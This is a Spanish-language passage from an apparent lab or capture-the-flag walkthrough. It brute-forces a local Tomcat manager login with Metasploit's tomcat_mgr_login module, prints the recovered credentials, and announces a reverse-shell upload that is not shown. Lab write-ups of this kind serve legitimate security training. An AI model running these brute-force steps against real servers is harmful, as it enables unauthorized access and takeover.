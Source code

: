 Metemos la contraseña y sin salirnos de la sesion, nos vamos a una pagina web en nuestro navegador del host poniendo la siguiente direccion URL.

```
URL = http://127.0.0.1:8080/
```

Por lo que podremos ver, veremos un tomcat en funcionamiento y si nos vamos a la direccion del panel del login del administrador, veremos que esta por defecto haciendo lo siguiente.

```
URL = http://127.0.0.1:8080/manager/
```

Nos pedira unas credenciales, por lo que haremos fuerza bruta con la lista de usuarios y contraseñas que ya recopilamos anteriormente.

### fuerza bruta tomcat con metasploit

```shell
msfconsole -q
```

Seleccionamos el modulo adecuado.

```shell
use auxiliary/scanner/http/tomcat_mgr_login
```

Configuramos todo.

```shell
set RHOSTS 127.0.0.1
set USER_FILE PATH/users.txt
set PASS_FILE PATH/passwords.txt
set VERBOSE false
```

Ejecutamos la fuerza bruta.

```shell
run
```

Info:

```
[+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Por lo que vemos nos saco unas credenciales, las cuales utilizaremos para logearnos en tomcat.

```
User = tomitoma
Pass = supersecurepasswordultra
```

Una vez estando dentro del panel de administrador de tomcat, subiremos una aplicacion con una `Reverse Shell` para obtener acceso mediante el usuario tomcat.
